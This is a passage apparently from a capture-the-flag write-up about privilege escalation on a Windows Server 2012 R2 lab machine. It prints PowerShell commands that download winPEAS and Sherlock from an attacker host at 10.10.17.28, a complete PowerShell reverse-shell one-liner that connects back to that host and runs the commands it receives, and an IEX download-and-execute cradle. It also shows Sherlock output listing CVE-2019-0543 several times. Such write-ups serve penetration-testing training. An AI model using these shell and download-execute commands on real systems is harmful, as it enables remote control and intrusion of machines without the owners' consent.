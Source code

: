 That was a quick exploitation. I can start with the privilege escalation.

# Privilege Escalation

---

I check for privilege escalation vectors using winPEAS, so I start a webserver and download it:

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.17.28/winPEAS.bat" -OutFile 'C:\Users\kostas\Desktop\winPEAS.bat'
```

I run it but found nothing interesting, so I switched to a script called [sherlock](https://github.com/rasta-mouse/Sherlock) to find an exploit. I can download it with the command below.

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.17.28/sherlock.ps1" -OutFile 'C:\Users\kostas\Desktop\sherlock.ps1'
```

I want a good reverse shell which is based on powershell, so I create one (local file)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.17.28",5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I can call the reverse shell using this command:

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.17.28/rev.ps1')"
```

So now I can run the sherlock script to find vulnerabilities:

```bash
Date: 20190108       
CVE: CVE-2019-0543  
KB: KB4480964          
Title: Microsoft Windows Elevation of Privilege Vulnerability     
Affected product: Windows Server 2012 R2       
Affected component: Microsoft Windows               
Severity: Important                                 
Impact: Elevation of Privilege                      
Exploit: https://www.exploit-db.com/exploits/46156/ 
 
Date: 20190108
CVE: CVE-2019-0543
KB: KB4480964   
Title: Microsoft Windows Elevation of Privilege Vulnerability       
Affected product: Windows Server 2012 R2     
Affected component: Microsoft Windows      
Severity: Important  
Impact: Elevation of Privilege
Exploit: https://www.exploit-db.com/exploits/46156/   
 
Date: 20190108   
CVE: CVE-2019-0543   
KB: KB4480964   
Title: Microsoft Windows Elevation of Privilege Vulnerability 
Affected product: Windows Server 2012 R2   
Affected component: Microsoft Windows    
Severity: Important    
Impact: Elevation of Privilege    
```